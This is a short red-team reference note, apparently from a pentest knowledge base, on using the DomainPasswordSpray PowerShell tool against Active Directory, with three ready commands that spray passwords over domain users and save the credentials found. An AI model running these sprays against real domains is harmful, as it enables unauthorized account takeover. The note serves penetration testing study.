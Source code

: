 # DomainPasswordSpray

TODO: Fill this info

- Perform automated user enumeration then password spray process when executing from the current domain.

`PS C:\> Invoke-DomainPasswordSpray -Password <password> -OutFile credentials.txt`

- Specifying a password list then check for [[Tactics && Techniques && Procedures (TTPs) Phases/Post Exploitation/Shell Is The Beginning/02 - Enumeration and Discovery/Windows/Host/Internal Reconnaissance/Users/Manual|account lockout observation window]]

`PS C:\> Invoke-DomainPasswordSpray -PasswordList passwords.txt -OutFile credentials.txt`

https://pwn.no0.be/exploitation/password/account_lockout/

`PS C:\> Invoke-DomainPasswordSpray -Domain <DOMAIN> -UserList users.txt -Password <password> -OutFile credentials.txt`

---
## References

- [dafthack: DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)

- [Pwnage Base: Password Spray](https://pwn.no0.be/exploitation/password/smb/)